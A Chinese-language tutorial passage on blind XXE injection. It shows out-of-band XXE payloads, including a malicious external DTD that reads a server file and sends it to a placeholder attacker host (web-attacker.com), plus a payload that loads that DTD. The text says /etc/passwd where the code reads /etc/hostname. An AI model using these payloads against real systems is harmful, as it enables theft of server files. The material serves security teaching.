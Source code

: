 ### Bind XXE

> Bind XXE 出现在应用程序易受到 XXE 注入攻击，但是在响应中不存在任何资源，这意味着我们无法直接检索服务器端文件，因此 Bind XXE 比常规 XXE 漏洞更加难以利用
>
> * 使用 OAST 技术检测，有时会在交互数据中泄露敏感数据
> * 通过错误消息包含敏感数据的方式触发 XML 解析错误

#### 1. 使用 OAST 技术检测 -- 内部实体

这种攻击将会向指定的 URL 发出后端请求

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
	<!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> 	%xxe; 
]>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```

#### 2. 使用 OAST 技术检测 -- 外部实体

我们使服务器加载一个带有恶意负载的 DTD ，该负载将通过 HTTP 请求发送文件的内容

```
<!-- malicious.dtd -->
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

> 该 DTD 执行步骤：
>
> * 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件内容
> * 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 exfiltrate 的 XML 的参数实体的动态声明，将通过向攻击者的 WEB 服务器发出 HTP 请求来评估 exfiletrate 实体，其中包含 URL 查询字符串的文件实体值
> * 使用 %eval ，这将会执行 exfiletrate 实体的动态声明
> * 使用 exfiletrate 实体，以便通过请求指定 URL 来获取其值

然后攻击者必须在他们控制的系统上托管恶意的 DTD文件，通常会加载到网络服务器上，eg : http://web-attacker.com/malicious.dtd

最后攻击者必须向易受攻击的应用程序提交以下 XXE 负载：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> 
	%xxe;
]>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```
